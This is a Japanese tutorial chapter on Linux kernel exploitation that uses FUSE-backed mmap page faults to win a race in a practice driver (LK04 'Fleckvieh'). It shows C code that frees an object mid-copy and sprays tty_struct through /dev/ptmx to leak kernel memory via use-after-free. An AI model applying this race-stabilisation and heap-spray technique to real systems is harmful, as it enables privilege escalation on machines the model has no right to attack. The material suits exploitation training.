


[前章](uffd.html)ではuserfaultfdを利用してLK04(Fleckvieh)の競合を安定化させました。本章では同じくLK04を、別の方法でexploitしてみます。

<div class="column" title="目次">
<!-- toc --><br>
</div>

## userfaultfdの欠点
前章でも少し説明したように、userfaultfdは現在のLinuxでは標準で一般ユーザーは利用できません。正確には、ユーザー空間で発生さしたページフォルトは検知できますが、カーネル空間で発生したものは一般ユーザーの作ったuserfaultfdでは検知できません。それぞれ以下のパッチで導入されたセキュリティ緩和機構です。

- [userfaultfd: allow to forbid unprivileged users](https://lwn.net/Articles/782745/)
- [Control over userfaultfd kernel-fault handling](https://lwn.net/Articles/835373/)

そこで、今回はLinuxの機能の一つであるFUSEという仕組みを利用します。まずはFUSEとは何かを勉強しましょう。

## FUSEとは
[**FUSE**(Filesystem in Userspace)](https://lwn.net/Articles/68104/)は、ユーザー空間から仮想的にファイルシステムの実装を可能にするLinuxの機能です。`CONFIG_FUSE_FS`を付けてカーネルをビルドすると有効になります。
まず、プログラムはFUSEを使ってファイルシステムをマウントします。誰かがこのファイルシステム中のファイルにアクセスすると、プログラム側で設定したハンドラが呼び出されます。構造はLK01で見たキャラクターデバイスの実装と非常に似ています[^1]。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    FUSEを使っているアプリケーションとしては、<a href="https://github.com/libfuse/sshfs" target="_blank">sshfs</a>や<a href="https://appimage.org/" target="_blank">AppImage</a>があるね。
  </p>
</div>

## FUSEの利用
システム上のFUSEのバージョンは`fusermount`コマンドで調査できます。
```
/ $ fusermount -V
fusermount version: 2.9.9
```
ローカルマシンでFUSEを試したい場合、次のコマンドでインストールしてください。今回はターゲットのFUSEがバージョン2なので、fuse3ではなくfuseを使います。
```
# apt-get install fuse
```
また、FUSEを使うプログラムをコンパイルする上でヘッダが必要になるので、次のコマンドでインストールしておいてください。
```
# apt-get install libfuse-dev
```

それでは実際にFUSEを使ってみましょう。
FUSEを利用して作ったファイルシステム中のファイルに操作が走ると、`fuse_operations`に定義したハンドラが呼び出されます。`fuse_operations`にはファイル操作の`open`, `read`, `write`, `close`やディレクトリアクセスの`readdir`, `mkdir`などの他、`chmod`や`ioctl`, `poll`など、あらゆる操作を独自実装できます。今回はexploitの目的で利用するだけなので、ファイルの`open`, `read`が実装できれば十分です。また、`open`するためにはファイルの権限などの情報を返す`getattr`関数も定義する必要があります。実際のコードを読んでみましょう。
```c
#define FUSE_USE_VERSION 29
#include <errno.h>
#include <fuse.h>
#include <stdio.h>
#include <string.h>

static const char *content = "Hello, World!\n";

static int getattr_callback(const char *path, struct stat *stbuf) {
  puts("[+] getattr_callback");
  memset(stbuf, 0, sizeof(struct stat));

  /* マウント箇所からみたパスが"/file"かを確認 */
  if (strcmp(path, "/file") == 0) {
    stbuf->st_mode = S_IFREG | 0777; // 権限
    stbuf->st_nlink = 1; // ハードリンクの数
    stbuf->st_size = strlen(content); // ファイルサイズ
    return 0;
  }

  return -ENOENT;
}

static int open_callback(const char *path, struct fuse_file_info *fi) {
  puts("[+] open_callback");
  return 0;
}

static int read_callback(const char *path,
                         char *buf, size_t size, off_t offset,
                         struct fuse_file_info *fi) {
  puts("[+] read_callback");

  if (strcmp(path, "/file") == 0) {
    size_t len = strlen(content);
    if (offset >= len) return 0;

    /* データを返す */
    if ((size > len) || (offset + size > len)) {
      memcpy(buf, content + offset, len - offset);
      return len - offset;
    } else {
      memcpy(buf, content + offset, size);
      return size;
    }
  }

  return -ENOENT;
}

static struct fuse_operations fops = {
  .getattr = getattr_callback,
  .open = open_callback,
  .read = read_callback,
};

int main(int argc, char *argv[]) {
  return fuse_main(argc, argv, &fops, NULL);
}
```
次のように`-D_FILE_OFFSET_BITS=64`を付けてコンパイルします。
```
$ gcc test.c -o test -D_FILE_OFFSET_BITS=64 -lfuse
```
また、配布環境の中で試す場合、静的リンクする必要があります。FUSEが要求するライブラリなどを確認するとpthreadが必要と分かります。
```
$ pkg-config fuse --cflags --libs
-D_FILE_OFFSET_BITS=64 -I/usr/include/fuse -lfuse -pthread
```
このオプションを付けてビルドしてもdlまわりの関数が必要と言われます。
```
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_put_module.isra.0':
(.text+0xe0e): undefined reference to `dlclose'
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0x9e9e): undefined reference to `dlopen'
/usr/bin/ld: (.text+0x9efb): undefined reference to `dlsym'
/usr/bin/ld: (.text+0xa1e2): undefined reference to `dlerror'
/usr/bin/ld: (.text+0xa265): undefined reference to `dlclose'
/usr/bin/ld: (.text+0xa282): undefined reference to `dlerror'
collect2: error: ld returned 1 exit status
make: *** [Makefile:2: all] Error 1
```
リンクの順番に注意して、`-ldl`を一番後ろに付けてコンパイルすると、配布環境内でもgccでビルドしたプログラムでFUSEが使えます。
```
$ gcc test.c -o test -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
```

`fuse_main`が引数をパースしてメイン処理を実行します。ここでは`/tmp/test`にマウントしてみます。
```
$ mkdir /tmp/test
$ ./test -f /tmp/test
```
正しく動作している場合、エラーは出ずにプログラムが停止します。エラーが出る場合、OSがFUSEに対応しているかや、コンパイル時のFUSEのバージョンが一致しているかなどを確認してください。
この状態で別のターミナルから`/tmp/test/file`にアクセスすると、データが読めるはずです。
```
$ cat /tmp/test/file
Hello, World!
```
なお、今回は`readdir`を実装していないため、マウントポイントに対して`ls`などでファイル一覧を見られない他、ルートディレクトリに対する`getattr`も実装していないため、`/tmp/test`の存在自体が見えなくなっています。

また、上記プログラムで利用している`fuse_main`はヘルパー関数です。いちいち引数を指定するのが嫌な場合は、次のように呼び出すことも可能です。
```c
int main()
{
  struct fuse_args args = FUSE_ARGS_INIT(0, NULL);
  struct fuse_chan *chan;
  struct fuse *fuse;

  if (!(chan = fuse_mount("/tmp/test", &args)))
    fatal("fuse_mount");

  if (!(fuse = fuse_new(chan, &args, &fops, sizeof(fops), NULL))) {
    fuse_unmount("/tmp/test", chan);
    fatal("fuse_new");
  }

  fuse_set_signal_handlers(fuse_get_session(fuse));
  fuse_loop_mt(fuse);

  fuse_unmount("/tmp/test", chan);

  return 0;
}
```
`fuse_mount`でマウントポイントを決め、`fuse_new`でFUSEのインスタンスを作成します。`fuse_loop_mt`（`mt`はマルチスレッド）でイベントを監視します。プログラムが終了する際に監視から抜け出せるように、`fuse_set_signal_handlers`を設定するのを忘れないようにしましょう。最後の`fuse_unmount`に到達しないと、マウントポイントが壊れてしまいます。

## Raceの安定化
それではFUSEをexploitの安定化に利用する方法を考えてみましょう。
といっても原理はuserfaultfdの時とまったく同じです。userfaultfdではページフォルトを起点としてユーザー側のハンドラを呼ばせましたが、FUSEの場合はファイルのreadを起点とします。
FUSEで実装したファイルを`mmap`で`MAP_POPULATE`なしでメモリにマップすると、その領域を読み書きした時点でページフォルトが発生し、最終的に`read`が呼び出されます。これを利用すればuserfaultfdのときと同じように、メモリ読み書きが発生するタイミングでコンテキストを切り替えられます。

図で表すと次のようになります。

<center>
  
</center>

userfaultfdのときとの違いは、ページフォルト発生時にFUSE経由でハンドラが呼ばれるという点だけです。実際に、これを使ってRaceを安定化させてみましょう。
```c
cpu_set_t pwn_cpu;
char *buf;
int victim;

...

static int read_callback(const char *path,
                         char *buf, size_t size, off_t offset,
                         struct fuse_file_info *fi) {
  static int fault_cnt = 0;
  printf("[+] read_callback\n");
  printf("    path  : %s\n", path);
  printf("    size  : 0x%lx\n", size);
  printf("    offset: 0x%lx\n", offset);

  if (strcmp(path, "/pwn") == 0) {
    switch (fault_cnt++) {
      case 0:
        puts("[+] UAF read");
        /* [1-2] `blob_get`によるページフォルト */
        // victimを解放
        del(victim);

        // tty_structをスプレーし、victimの場所にかぶせる
        int fds[0x10];
        for (int i = 0; i < 0x10; i++) {
          fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
          if (fds[i] == -1) fatal("/dev/ptmx");
        }
        return size;
    }
  }

  return -ENOENT;
}

...

int setup_done = 0;

void *fuse_thread(void *_arg) {
  struct fuse_args args = FUSE_ARGS_INIT(0, NULL);
  struct fuse_chan *chan;
  struct fuse *fuse;

  if (mkdir("/tmp/test", 0777))
    fatal("mkdir(\"/tmp/test\")");

  if (!(chan = fuse_mount("/tmp/test", &args)))
    fatal("fuse_mount");

  if (!(fuse = fuse_new(chan, &args, &fops, sizeof(fops), NULL))) {
    fuse_unmount("/tmp/test", chan);
    fatal("fuse_new");
  }

  /* メインスレッドを同じCPUで動かす */
  if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
    fatal("sched_setaffinity");

  fuse_set_signal_handlers(fuse_get_session(fuse));
  setup_done = 1;
  fuse_loop_mt(fuse);

  fuse_unmount("/tmp/test", chan);
  return NULL;
}

int main(int argc, char **argv) {
  /* メインスレッドとFUSEスレッドが必ず同じCPUで動くよう設定する */
  CPU_ZERO(&pwn_cpu);
  CPU_SET(0, &pwn_cpu);
  if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
    fatal("sched_setaffinity");

  pthread_t th;
  pthread_create(&th, NULL, fuse_thread, NULL);
  while (!setup_done);

  /*
   * Exploit本体
   */
  fd = open("/dev/fleckvieh", O_RDWR);
  if (fd == -1) fatal("/dev/fleckvieh");

  /* FUSEのファイルをメモリにマップ */
  int pwn_fd = open("/tmp/test/pwn", O_RDWR);
  if (pwn_fd == -1) fatal("/tmp/test/pwn");
  void *page;
  page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
              MAP_PRIVATE, pwn_fd, 0);
  if (page == MAP_FAILED) fatal("mmap");

  /* tty_structと同じサイズのデータ設定 */
  buf = (char*)malloc(0x400);
  victim = add(buf, 0x400);
  set(victim, "Hello", 6);

  /* [1-1] UAF Read: tty_structのリーク */
  get(victim, page, 0x400);
  for (int i = 0; i < 0x80; i += 8) {
    printf("%02x: 0x%016lx\n", i, *(unsigned long*)(page + i));
  }

  return 0;
}
```
[前章](uffd.html)のコードと比べると、構造が非常に似ていることが分かります。このように、FUSEはuserfaultfdの代替策として、exploitに使える場合があります。コードを動かすと、`tty_struct`の一部がリークできていることが分かります。

<center>
  
</center>

userfaultfdの時と同様に、`copy_to_user`を大きいサイズで呼んでいるため、データの先頭はリークできていません。これに関しては、前回と同じく小さいサイズのリークにより解決できます。

さて、userfaultfdと違って注意しないといけないのが、`read`でマップしたサイズだけデータを要求される点です。userfaultfdでは、ページサイズ（0x1000）ごとにフォルトが発生しました。そのため、例えば3回フォルトハンドラを呼びたい場合、0x3000バイトだけ`mmap`すれば良いです。
しかし、FUSEの場合、最初のフォルトで0x3000バイトの要求が走るため、以降ページフォルトが発生しません。この問題は、ファイルを開き直すことで簡単に解決できます。

何度もファイルを開くことになるので、関数化しておきましょう。
```c
int pwn_fd = -1;
void* mmap_fuse_file(void) {
  if (pwn_fd != -1) close(pwn_fd);
  pwn_fd = open("/tmp/test/pwn", O_RDWR);
  if (pwn_fd == -1) fatal("/tmp/test/pwn");

  void *page;
  page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
              MAP_PRIVATE, pwn_fd, 0);
  if (page == MAP_FAILED) fatal("mmap");
  return page;
}
```
あとは基本的にuserfaultfdのときと同じです。userfaultfdで`copy.src`を設定したときの操作は、FUSEでは`memcpy`でユーザーバッファにデータをコピーすることで実現できます。
ご自身でexploitを完成させてみてください。

<center>
  
</center>

サンプルのexploitコードは[ここ](exploit/fleckvieh_fuse.c)からダウンロードできます。

[^1]: ユーザー空間で仮想的にキャラクタデバイスを登録するCUSEという仕組みもあります。
